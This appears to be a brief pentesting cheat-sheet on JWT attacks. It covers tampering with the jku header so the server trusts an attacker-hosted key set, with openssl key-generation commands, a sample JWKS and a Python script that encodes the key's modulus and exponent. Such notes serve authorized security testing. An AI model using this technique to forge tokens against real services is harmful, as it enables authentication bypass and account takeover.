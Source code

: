 # jwt decode

check: https://jwt.io

# jku/jwks

## generate public key from jku

https://8gwifi.org/jwkconvertfunctions.jsp

## tamper jku (to your url) and sign it your public/private key (based on https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)

generate key pair

```bash
openssl genrsa -out rsa-keypair.pem 2048
openssl rsa -in rsa-keypair.pem -pubout -out public-key.pem
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in rsa-keypair.pem -out private-key.pem
```

you can now go to jwt.io change the algorithm to rsa256 and paste your payload and keys

valid jwks:

```json
{
  "kty": "RSA",
  "use": "sig",
  "kid": "domain",
  "alg": "RS256",
  "n": "long as base64 string",
  "e": "ABBA"
}
```

to generate "n" and "e" run the follow python script:

```python
from Crypto.PublicKey import RSA
import struct
import base64

fp = open("public-key.pem", "r")
key = RSA.importKey(fp.read())
fp.close()

def long_to_base64(n):
    """
    Borrowed from jwkest.__init__
    """

    def long2intarr(long_int):
        _bytes = []
        while long_int:
            long_int, r = divmod(long_int, 256)
            _bytes.insert(0, r)
        return _bytes

    bys = long2intarr(n)
    data = struct.pack("%sB" % len(bys), *bys)
    if not data:
        data = "\x00"
    s = base64.urlsafe_b64encode(data).rstrip(b"=")
    return s.decode("ascii")

print("n:", long_to_base64(key.n))
print("e:", long_to_base64(key.e))
```

## tampering and other stuff

check out https://github.com/ticarpi/jwt_tool
